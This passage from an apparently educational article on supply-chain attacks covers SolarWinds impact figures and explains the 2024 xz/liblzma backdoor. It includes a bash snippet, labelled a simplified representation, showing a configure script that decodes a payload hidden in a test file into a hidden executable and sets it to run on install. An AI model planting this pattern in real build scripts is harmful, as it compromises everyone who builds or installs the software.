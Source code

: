 - Over 18,000 organizations received infected updates
- More than 425 Fortune 500 companies affected
- Multiple U.S. government agencies compromised
- Estimated financial impact exceeding $100 million

### The xz/liblzma Backdoor (2024)

In March 2024, researchers discovered a sophisticated backdoor in the xz/liblzma
compression library (versions 5.6.0 and 5.6.1), which is widely used in Linux
distributions. This attack was particularly insidious because of its complex,
multi-stage execution strategy.

Here's how the backdoor actually worked:

1. The malicious code was hidden in two compressed test files in the repository.
   These files contained binary code that appeared innocent but could be
   weaponized during the build process

2. A modified build script was included ONLY in the release tarballs (not in the
   git repository), making detection extremely difficult

3. During build, an obfuscated portion of the build script contained malicious
   code that would only activate under specific conditions. Here's a simplified
   representation of the actual malicious script fragment:

```bash
# In ./configure script (simplified representation, actual code was obfuscated)
check_pkg_config() {
  if [ -z "$PKG_CONFIG" ]; then
    PKG_CONFIG=pkg-config
  fi

  # Normal configuration code...

  # Malicious section only in tarball version of the script
  if [ "${HOST_CPU}" = "x86_64" ] &&
     [ -f "/etc/debian_version" -o -f "/etc/redhat-release" ] &&
     [ -x "/usr/bin/dpkg" -o -x "/usr/bin/rpm" ] &&
     [ -f "/lib/x86_64-linux-gnu/libc.so.6" ] &&
     [ "$(uname -s)" = "Linux" ]; then

    # Extract and decode hidden payload from test files
    payload=$(dd if=./tests/files/good-1.lzma bs=1 skip=128 count=256 2>/dev/null | base64 -d)
    encoded_script=$(echo "$payload" | head -c 1024 | tr 'A-Za-z' 'N-ZA-Mn-za-m')

    # Store the decoded script in a hidden location
    mkdir -p ${builddir}/.libs/tmp
    echo "$encoded_script" | base64 -d > ${builddir}/.libs/tmp/.config.sh
    chmod +x ${builddir}/.libs/tmp/.config.sh

    # The script will be executed during make install
    echo "post_install=\"\${builddir}/.libs/tmp/.config.sh\"" >> Makefile.conf
  fi
}
```

